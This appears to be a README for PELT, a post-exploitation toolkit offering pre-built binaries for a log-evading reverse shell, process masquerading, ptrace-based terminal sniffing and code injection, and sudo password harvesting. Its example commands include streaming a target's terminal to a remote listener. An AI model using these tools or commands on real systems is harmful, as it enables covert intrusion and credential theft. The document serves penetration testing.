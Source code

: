 # PELT #

***
**What is PELT?**

_PELT_ is the Post Exploitation Linux Toolkit. It is intended as a collection of Linux user space tools designed to assist pentesters during the post-exploitation phases of their engagement. The tools appear here as pre-built binaries for easy access in the field.

These tools are each projects of mine with their own Github pages. Please refer to these project pages for full descriptions as well as source code.

***
### _revsh_ ###

_revsh_ is a reverse shell. It was designed to meet the needs of pentesters facing long engagements. The features include:

 * Full terminal support.
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.
 * Proxy support: point-to-point, SOCKS 4, SOCKS 4a, and SOCKS 5. Proxys are available in both directions for complete flexibility.
 * TUN / TAP support for forwarding raw IP packets / Ethernet frames. (Reverse VPN.)
 * Escape sequence commands to kill non-responsive nodes, or print connection statistics.

Project page: [https://github.com/emptymonkey/revsh](https://github.com/emptymonkey/revsh)

Pre-built binaries: [Linux-x86_64](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-v1.0.2-Linux-x86_64), [Linux-i686](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-v1.0.2-Linux-i686), [FreeBSD-amd64](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-v1.0.2-FreeBSD-amd64)

Example:

	empty@monkey:~$ ./revsh -c 

	user@target:~$ ./revsh

Note: The pre-built binaries above are the GENERIC_BUILD versions of revsh, which default to Anonymous Diffie-Hellman encryption.  In order to enable Ephemeral Diffie-Hellman (with Perfect Forward Secrecy) you will need to build your own copy from source and manage your own keys.

***
### _mimic_ ###

_mimic_ is a tool that allows a user to run a program, but have it show up in the process table as something different. The name in the process listing can be any string. _mimic_ does **not** require root privileges.

Project page:	[https://github.com/emptymonkey/mimic](https://github.com/emptymonkey/mimic)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/mimic)

Example:

	empty@monkey:~$ ./mimic -e "/bin/bash" -m "/sbin/getty 38400 tty0"

***
### _set_target_pid_ ###

_set_target_pid_ is a simple program that resets the Process ID (PID) numbers being issued by the system as close as possible to a target. This program is part of the _mimic_ project. This program does **not** require root privileges.

Project page:	[https://github.com/emptymonkey/mimic](https://github.com/emptymonkey/mimic)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/set_target_pid)

Example:

	empty@monkey:~$ ./set_target_pid 1

Note: The target PID is only a target. _set_target_pid_ will try to get as close as possible, but that PID may simply not be available. The PIDs smaller than 300 appear to be reserved for kernel threads. If you request a PID of '1', then look for the result around '300'. Finally, after you set the PIDs and launched your payload, don't forget to reset the PIDs again to where they were before.

***
### _shelljack_ ###

_shelljack_ is terminal sniffer. (This is similar to a keystroke logger, but it gathers all input **and** output.) _shelljack_ does **not** require root privileges (except on Ubuntu systems).

Project page:	[https://github.com/emptymonkey/shelljack](https://github.com/emptymonkey/shelljack)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/shelljack)

Example:

	empty@monkey:~$ ncat -l 192.168.1.42 9999

	user@target:~$ ./shelljack 192.168.1.42:9999 $$

Note: _shelljack_ uses ptrace() to attach to processes. Because Ubuntu is patched specifically against this type of attack, _shelljack_ won't work on Ubuntu systems unless it is run as root. 

***
### _sigsleeper_ ###

_sigsleeper_ injects malicious code into a process that can be triggered by sending that process a signal. This type of attack is best describes as a "malicious signal handler injection with ptrace" attack. Because the injected code will sit quietly until it receives it's signal, at which point it will then launch its payload, I refer to this as "sleeper code". _sigsleeper_ does **not** require root privileges (except on Ubuntu systems).

Project page: [https://github.com/emptymonkey/sigsleeper](https://github.com/emptymonkey/sigsleeper)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/sigsleeper)

Example:

	empty@monkey:~$ sigsleeper -f -e '/bin/echo Hello world!' $$
	empty@monkey:~$ kill -USR1 $$
	empty@monkey:~$ Hello world!

Note: _sigsleeper_ uses ptrace() to attach to processes. Because Ubuntu is patched specifically against this type of attack, _sigsleeper_ won't work on Ubuntu systems unless it is run as root.

***
### _sudo\_mitm.sh_ ###

_sudo\_mitm.sh_ is a very humble shell script that takes advantage of the SUDO_ASKPASS functionality to quickly harvest a target users password. This requires the ability to write to the target user's home directory as a prerequisite. This is useful for gathering the admin credentials quickly on an already compromised host. 

Project page: [https://github.com/emptymonkey/sudo_mitm](https://github.com/emptymonkey/sudo_mitm)


***
### _pretend_ ###

_pretend_ is a very simple program that changes your UID / GIDs. _pretend_ **does** require root privileges. This program is useful for programmatically changing your UID on the fly without requiring that the UID maps to a valid account on the host. There are a class of attacks for which this tool is very nice to have available.

Project page: [https://github.com/emptymonkey/pretend](https://github.com/emptymonkey/pretend)

Pre-built binaries: [x86_64](https://github.com/emptymonkey/PELT/raw/master/pretend)

Example: 

	empty@monkey:~$ sudo pretend 5:26:103:110:50 id
	uid=5(games) gid=26(tape) groups=60(games),50(staff),103(ssh),110(kvm)


***
### A Quick Note on Ethics ###

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

